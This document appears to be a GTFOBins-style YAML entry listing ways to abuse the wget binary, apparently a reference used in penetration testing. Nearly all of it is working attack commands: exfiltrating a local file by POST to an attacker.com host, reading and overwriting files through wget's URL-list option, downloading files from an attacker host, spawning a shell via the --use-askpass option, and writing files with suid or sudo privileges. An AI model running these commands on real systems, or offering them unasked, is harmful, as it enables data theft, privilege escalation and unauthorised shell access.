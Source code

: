 ```yaml
---
functions:
  file-upload:
    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Use `--post-data` to send hard-coded data.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        wget --post-file=$LFILE $URL
  file-read:
    - description: The file to be read is treated as a list of URLs, one per line, which are actually fetched by `wget`. The content appears, somewhat modified, as error messages, thus this is not suitable to read arbitrary binary data.
      code: |
        LFILE=file_to_read
        wget -i $LFILE
  file-write:
    - description: The data to be written is treated as a list of URLs, one per line, which are actually fetched by `wget`. The data is written, somewhat modified, as error messages, thus this is not suitable to write arbitrary binary data.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA > $TF
        wget -i $TF -o $LFILE
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        wget $URL -O $LFILE
  shell:
    - code: |
        TF=$(mktemp)
        echo -e '#!/bin/sh\nsh 1>&0 2>&0' > $TF
        chmod +x $TF
        wget -v --use-askpass=$TF 0
  suid:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        ./wget $URL -O $LFILE
  sudo:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        sudo wget $URL -O $LFILE
---
```

